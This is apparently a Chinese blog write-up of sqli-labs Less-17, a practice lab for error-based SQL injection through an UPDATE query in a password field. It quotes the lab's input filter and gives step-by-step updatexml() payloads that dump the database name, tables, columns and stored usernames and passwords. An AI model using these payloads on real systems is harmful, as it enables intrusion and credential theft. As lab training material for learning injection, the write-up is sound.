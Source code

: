# 原创
：  （手工）【sqli-labs17】update注入：原理、利用过程

# （手工）【sqli-labs17】update注入：原理、利用过程

**目录**

[推荐：](#%C2%A0%E6%8E%A8%E8%8D%90%EF%BC%9A)

[一、（手工）SQL注入基本步骤：](#%E4%B8%80%E3%80%81%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%88%E6%89%8B%E5%B7%A5%EF%BC%89SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[二、Less17（POST-Update Query -Error Based String）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[2.1、简介：（更新注入-单引号）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[2.2、第一步：注入点测试](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[ 2.3、第二步：分析过滤](#%C2%A02.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%88%86%E6%9E%90%E8%BF%87%E6%BB%A4)

[2.4、第三步：暴库](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9A%B4%E5%BA%93)

[2.5、第四步：爆表名](#%C2%A0%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E7%88%86%E8%A1%A8%E5%90%8D)

[2.6、第五步：爆字段](#%C2%A0%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[2.7、第六步：爆数据](#%C2%A0%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

---


> 
<h2>推荐：</h2>
[【SQL注入】UPDATE、insert、delete注入<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125670581?spm=1001.2014.3001.5502](https://blog.csdn.net/qq_53079406/article/details/125670581?spm=1001.2014.3001.5502)


---


---


## 一、（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：分析权限、过滤
第三步：爆数据库名
第四步：爆表名
第五步：爆字段名
第六步：爆数据


---


---


## 二、Less17（POST-Update Query -Error Based String）

> 
<h3>2.1、简介：（更新注入-单引号）</h3>
请求方法：POST
方法：update报错回显


> 
<h3>2.2、第一步：注入点测试</h3>
在第一个输入框中，输入闭合都失败
在第二个密码输入框中，成功闭合了




> 
<h3> 2.3、第二步：分析过滤</h3>
<pre><code>
function check_input($value)
    {
    if(!empty($value))
        {
        // truncation (see comments)
        $value = substr($value,0,15);
        }
 
        // Stripslashes if magic quotes enabled
        if (get_magic_quotes_gpc())
//magic_quotes_gpc = On，magic_quotes_gpc 函数在 php 中的作用是判断解析用户提示的数据
如包括有：post、get、cookie过来的数据增加转义字符“\”
避免数据库语句因为特殊字符引起的污染而出现致命的错误
单引号（’）双引号（”）反斜线（\）NULL（NULL 字符）（字符都会被加上反斜线）
            {
            $value = stripslashes($value);
//stripslashes() 删除由 addslashes() 函数添加的反斜杠
            }
 
        // Quote if not a number
        if (!ctype_digit($value))
//ctype_digit() 判断是不是数字，是数字就返回 true，否则返回 false
            {
            $value = "'" . mysql_real_escape_string($value) . "'";
//mysql_real_escape_string() 转义 SQL 语句中使用的字符串中的特殊字符
            }
        
    else
        {
        $value = intval($value);
//intval() 整型转换
        }
    return $value;
    }
    
</code></pre>
但是没有对密码进行限制，可以在password输入框中拼接到SQL语句
所以需要有对的用户名，然后密码后面的验证可以注释掉


> 
<h3>2.4、第三步：暴库</h3>
已经给出了用户名Dhakkan
aaaaaa' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
爆出数据库（或者）
aaa' or updatexml(1,concat(0x7e,(database()),0x7e),0) or '




> 
<h3>2.5、第四步：爆表名</h3>
' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),0) or '


 



> 
<h3>2.6、第五步：爆字段</h3>
' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'),0x7e),0) or '


 




> 
<h3>2.7、第六步：爆数据</h3>
' or updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),0) or '
You can't specify target table 'users' for update in FROM clause
(您无法指定目标表“用户”以获取从子句中的更新)
可能是有权限限制


那就再嵌套一层试试
'or updatexml(1,concat(0x7e,(select password from (select password from users limit 0,1) test ),0x7e),1) or'

只需要修改limit函数的第一个参数就可以
 limit 0,1
0表示开始字符位置，1表示字符间距

